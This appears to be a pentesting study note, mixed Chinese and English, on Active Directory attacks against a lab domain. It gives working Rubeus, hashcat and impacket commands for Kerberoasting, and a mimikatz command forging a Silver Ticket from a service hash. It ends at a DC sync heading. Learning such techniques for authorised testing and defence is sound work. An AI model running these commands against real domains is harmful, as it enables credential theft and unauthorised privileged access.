 #### Kerberoasting 
滥用SPN获取TGS-REP哈希 + hash破解（字典）
服务主体名称（SPN）Service Principal Name托管很多resource

用户想要请求SPN托管的资源时，client会发送service ticket给application server，应用服务器会使用SPN的密码哈希进行解密。

###limit    
If SPN run in the context of a computer account, a managed service account, or a group-managed service, the password will be randomly generated, and 120 characters long, making cracking infeasible.
Only in the context of a user accounts is much higher.



获取TGS-REP并解明文密码
```bash
win
### 识别与域用户关联的所有SPN  生成的TGS-REP保存到文件 
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt
-r /usr/share/hashcat/rules/best64.rule --force

linux
kali> impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

#### Silver Tickets   不需要获取明文密码

有了service account password 或者 与其关联的NTLM hash，可以构造自己的service ticket来访问目标resource，并且拥有任意权限。这个ticket叫silver ticket。

silver ticket的构造：
> SPN密码hash值      ###mimikatz获取 一般情况下需要权限         
> doamin SID        ###mimikatz获取或whoami /user  
> Target SPN        ###resource的SPN    

```
###制造silver ticket
mimikatz>kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

###查看
klist

```

修复

```
 https://support.microsoft.com/en-gb/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041
 
 如果没有这个补丁 就可以生成白银票据  silver ticket
```

#### Domain Controller Synchronization
条件：权限。如下    
